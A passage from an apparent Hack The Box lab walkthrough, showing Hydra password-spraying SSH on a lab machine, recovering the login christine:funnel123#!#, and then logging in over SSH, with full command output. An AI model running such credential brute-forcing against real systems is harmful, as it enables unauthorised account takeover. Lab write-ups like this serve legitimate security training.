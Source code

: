 
And now we can task `Hydra` with executing the attack on the target machine:
- Using the `-L` option, we specify which file contains the list of usernames for the attack.
- The `-p` option specifies that we only want to use **one** password, instead of a *password list*.
- After the target IP address, we specify the protocol for the attack, which will be `SSH`.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.64]─[scrage@htb-8dklubjats]─[~]
	└──╼ [★]$ hydra -L usernames.txt -p 'funnel123#!#' 10.129.193.224 ssh
	Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
	
	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-15 13:05:59
	[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
	[DATA] max 6 tasks per 1 server, overall 6 tasks, 6 login tries (l:6/p:1), ~1 try per task
	[DATA] attacking ssh://10.129.193.224:22/
	[22][ssh] host: 10.129.193.224   login: christine   password: funnel123#!#
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-15 13:06:03


Hydra gets a valid hit on the combination `christine:funnel123#!#`.
We can now use these credentials to gain remote access to the machine as the user `christine`.

	┌─[eu-starting-point-vip-1-dhcp]─[10.10.14.64]─[scrage@htb-8dklubjats]─[~]
	└──╼ [★]$ ssh christine@10.129.193.224
	The authenticity of host '10.129.193.224 (10.129.193.224)' can't be established.
	ED25519 key fingerprint is SHA256:RoZ8jwEnGGByxNt04+A/cdluslAwhmiWqG3ebyZko+A.
	This key is not known by any other names.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '10.129.193.224' (ED25519) to the list of known hosts.
	christine@10.129.193.224's password: 
	Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	  System information as of Sun 15 Sep 2024 06:09:13 PM UTC
	
	  System load:              0.0
	  Usage of /:               63.2% of 4.78GB
	  Memory usage:             12%
	  Swap usage:               0%
	  Processes:                159
	  Users logged in:          0
	  IPv4 address for docker0: 172.17.0.1
	  IPv4 address for ens160:  10.129.193.224
	  IPv6 address for ens160:  dead:beef::250:56ff:fe94:322
	
	 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
	   just raised the bar for easy, resilient and secure K8s cluster deployment.
	
	   https://ubuntu.com/engage/secure-kubernetes-at-the-edge
	